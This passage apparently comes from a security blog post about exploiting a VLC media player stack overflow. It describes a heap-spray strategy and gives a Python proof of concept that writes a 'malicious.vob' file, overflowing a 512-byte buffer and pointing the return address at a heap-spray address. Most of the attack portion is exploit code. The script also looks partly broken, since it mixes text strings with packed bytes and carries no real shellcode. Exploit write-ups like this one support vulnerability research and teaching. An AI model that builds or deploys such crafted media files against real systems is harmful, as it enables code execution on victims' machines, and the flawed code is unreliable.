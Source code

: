 ### Memory Layout Strategy

The heap spray technique aims to achieve:

1. **Predictable Memory Layout**: Fill heap with controlled data
2. **Landing Zones**: Create large NOP sleds for execution
3. **Shellcode Placement**: Position payload at predictable addresses
4. **Exploitation Reliability**: Compensate for ASLR variations

![VLC ActiveX exploitation with heap spray](/assets/blog/images/VLC_2.png)
*VLC ActiveX plugin exploitation demonstration with JavaScript heap spraying technique*

## Proof of Concept Development

### Malicious VOB File Structure

The exploit requires a carefully crafted VOB file that triggers the overflow:

```python
#!/usr/bin/env python
# VLC VOB Stack Overflow Exploit

import struct

def create_malicious_vob():
    """
    Generate malicious VOB file for VLC stack overflow
    """
    
    # VOB file header (simplified)
    vob_header = "\x00\x00\x01\xBA"  # Pack start code
    vob_header += "\x44" * 10  # System clock reference
    
    # Program stream map
    psm_header = "\x00\x00\x01\xBC"
    
    # Overflow trigger payload
    overflow_size = 600  # Exceeds 512-byte buffer
    overflow_data = "A" * overflow_size
    
    # EIP control (points to heap spray area)
    eip_control = struct.pack('<I', 0x0C0C0C0C)  # Heap spray target
    
    # Complete overflow payload
    payload = "A" * 512  # Fill buffer
    payload += "B" * 8   # Overwrite saved EBP
    payload += eip_control  # Overwrite return address
    
    # Construct malicious VOB
    malicious_vob = vob_header + psm_header + payload
    
    return malicious_vob

# Generate exploit file
with open("malicious.vob", "wb") as f:
    f.write(create_malicious_vob())

print("[+] Malicious VOB file created: malicious.vob")
```
